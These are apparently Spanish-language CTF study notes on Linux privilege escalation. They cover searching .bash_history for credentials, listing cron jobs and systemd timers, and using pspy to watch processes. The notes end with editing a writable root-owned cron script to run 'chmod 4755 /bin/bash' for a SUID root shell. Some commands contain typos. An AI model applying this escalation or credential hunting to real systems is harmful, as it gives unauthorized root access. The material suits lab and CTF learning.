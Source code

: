 **BASH HISTORY**

muchas veces en el archivo `.bash_history` se puede encontrar credenciales que se proporcionan en algunos comandos como mysql y demas.

## Tareas cron

```bash
cat /etc/crontab
```

para poder entender cada cuanto se ejecuta una tarea esta este [calculador online](https://crontab.guru/every-2-minutes)

```bash
git clone git clone https://github.com/DominicBreuker/pspy.git
cd pspy
go build -ldflags "-s -w" .
upx brute pspy
```

[pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.0)

```bash
./pspy32 -pf -i 1000
./pspy64 -pf -i 1000
```

ver  en cuento tiempo se van a ejecutar tareas con timers:

```bash
systemctl list-timers --all
```

* Tarea Cron: Es una tarea que se ejecuta a intervalos reglares de tiempo. A nivel de sistema cada cierto minuto por ejemplo.

Para crear una tarea Cron, se lo debe crear en la reuta **'etc/cron.d'**

Cron es un sericio por lo que pdemos iniciarlo, detenerlo, ver su estado

```bash
service cron status
service cron start
service cron stop
```

En un entorno de CTF debemos ir a una ruta con permisos de escritura para crear este archivo. Por ejemplo /dev/shm.

Vemos la ruta de la tarea cron .sh y accedemos a ella para ver sus permisos. Si otros puede editarla y el propietario es root o tiene priilegios mas altos, es posible elevar privilegios editando ese archivo.

Debemos borrar el contenido de esa tarea.

Tenemos que agregar a la tarea cron:

```bash
chmod 4755 /bin/bash
```
